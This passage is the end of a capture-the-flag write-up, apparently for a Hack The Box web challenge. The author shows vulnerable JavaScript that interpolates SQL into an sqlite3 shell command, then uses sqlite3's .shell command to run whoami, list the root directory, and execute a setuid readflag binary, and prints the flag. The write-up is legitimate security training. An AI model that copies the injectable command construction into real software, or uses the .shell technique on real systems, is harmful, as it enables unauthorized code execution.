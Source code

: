 The next step was to run custom commands. Performing command injection was a bit problematic because quotes cannot be closed — double quotes are replaced by single quotes.

```js
let safeSql = String(sql).replaceAll(/"/ig, "'");

let cmdStr = `sqlite3 -csv admin.db "${safeSql}"`;
```

Instead, I looked up sqlite3 on [GTFOBins](https://gtfobins.github.io/gtfobins/sqlite3/){:target="_blank"} .

Shell was exactly what I needed and it was quite simple.

![](/uploads/{{ page.permalink }}/ss22.png)

I ran `.shell whoami`.

![](/uploads/{{ page.permalink }}/ss23.png)

It worked! The user is `node`.

A few commands later I ran `.shell ls -la /` and found the `readflag` exectuable in the root directory.

```
total 92
drwxr-xr-x    1 root     root          4096 Dec  4 17:51 .
drwxr-xr-x    1 root     root          4096 Dec  4 17:51 ..
drwxr-xr-x    1 node     node          4096 Dec  4 17:52 app
drwxr-xr-x    1 root     root          4096 Jun  6 19:21 bin
drwxr-xr-x    5 root     root           360 Dec  4 17:51 dev
drwxr-xr-x    1 root     root          4096 Dec  4 17:51 etc
drwxr-xr-x    1 root     root          4096 Jun  6 19:21 home
drwxr-xr-x    1 root     root          4096 Jun  6 19:21 lib
drwxr-xr-x    5 root     root          4096 Apr  4  2022 media
drwxr-xr-x    2 root     root          4096 Apr  4  2022 mnt
drwxr-xr-x    1 root     root          4096 Jun  6 19:21 opt
dr-xr-xr-x  279 root     root             0 Dec  4 17:51 proc
-rwsr-xr-x    1 root     root         18784 Nov 30 16:42 readflag
drwx------    1 root     root          4096 Dec  1 20:20 root
drwxr-xr-x    1 root     root          4096 Dec  4 17:51 run
drwxr-xr-x    2 root     root          4096 Apr  4  2022 sbin
drwxr-xr-x    2 root     root          4096 Apr  4  2022 srv
dr-xr-xr-x   13 root     root             0 Dec  4 17:51 sys
drwxrwxrwt    1 root     root          4096 Dec  4 17:51 tmp
drwxr-xr-x    1 root     root          4096 Nov 30 16:42 usr
drwxr-xr-x    1 root     root          4096 Apr  4  2022 var
```

Finally, I ran `.shell /readflag` and got the flag. 💰

`HTB{br0k3n_4u7h_55RF_4s_4_s3rv1c3_d3bug_ftw}`

That's about it for this writeup! Thank you for reading and have a great day. 🪄
